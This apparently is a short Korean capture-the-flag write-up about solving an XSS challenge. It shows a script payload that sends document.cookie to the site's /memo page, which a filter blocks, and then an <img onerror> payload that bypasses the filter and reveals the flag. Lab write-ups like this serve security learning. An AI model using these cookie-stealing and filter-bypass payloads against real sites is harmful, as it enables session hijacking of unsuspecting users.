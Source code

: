 <img src="https://velog.velcdn.com/images/silvergun8291/post/10c1f5f0-e466-44bb-af38-1e5017f05413/image.png">

문제 사이트에 접속하면 전과 같이 3개의 연결된 페이지 목록이 있습니다.


<br>


flag 페이지에 들어가서 동일하게 XSS 공격을 시도해보면

```html
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

<img src="https://velog.velcdn.com/images/silvergun8291/post/6e618999-c2a7-43de-b2e0-d54ebf0230a3/image.png">

<img src="https://velog.velcdn.com/images/silvergun8291/post/5bf84483-234a-4361-b848-46efd4eddc84/image.png">

공격에 실패해서 FLAG가 출력되지 않았습니다.


<br>


XSS 필터링을 걸려있어서 우회를 해서 공격을 해야 할 거 같습니다.

onerror 이벤트 핸들러를 이용해서 우회 코드를 작성해보면

```html
<img src="valid.jpg" onerror="location.href = '/memo?memo=' + document.cookie">
```

없는 이미지는 로드하게 하여 데이터 로드를 실패하게 한 후 뒤에 코드가 실행되게 하였습니다.


<BR>


우회 코드로 다시 XSS 공격을 시도해보면

![](https://velog.velcdn.com/images/silvergun8291/post/e2744613-2c20-445a-acaf-93c58edb2b5a/image.png)

![](https://velog.velcdn.com/images/silvergun8291/post/a18332a5-fa83-4506-b2a9-779cc959072c/image.png)

이번에는 공격에 성공해서 FLAG가 출력되었습니다.





